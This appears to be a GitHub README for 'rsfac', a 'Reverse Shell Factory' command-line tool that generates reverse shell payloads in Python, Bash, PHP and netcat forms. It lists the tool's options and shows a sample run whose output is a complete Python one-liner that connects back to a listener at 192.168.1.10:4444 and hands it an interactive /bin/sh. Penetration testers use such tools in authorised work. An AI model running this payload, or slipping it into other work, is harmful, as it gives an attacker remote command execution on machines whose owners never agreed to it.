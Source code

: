 <h1 align="center">rsfac</h1>
<p align="center">Reverse Shell Factory</p>
<p align="center">It is simple to create many types of reverse shell by command line.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>

***

## Help Menu
```
    ------Help Menu------
    Reverse Shell Factory
    v.1
    
    Usage Method:
    python3 rsfac.py <args>
    
    Example:
    python3 rsfac.py l=py h=192.168.1.10 p=4444
    
    
    -Commands-----------
    h=        Local Host
    p=        Local Port
    l=           Payload
    help       Help Menu
    
    
    -Reverse Shell Payloads------
    py              Simple Python
    py3            Simple Python3
    bash              Simple Bash
    php                Simple PHP
    php2       Second Type of PHP
    phpw     Shell For Web Server
    phpw2   Simple For Web Server
    nc          Some Types Netcat

```
## Usage Example

```
python3 rsfac.py h=192.168.1.10 p=4444 l=py
./rsfac h=192.168.1.10 p=4444 l=py

Reverse Shell Factory

Local Host: 192.168.1.10
Local Port: 4444
Type: py

Simple Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
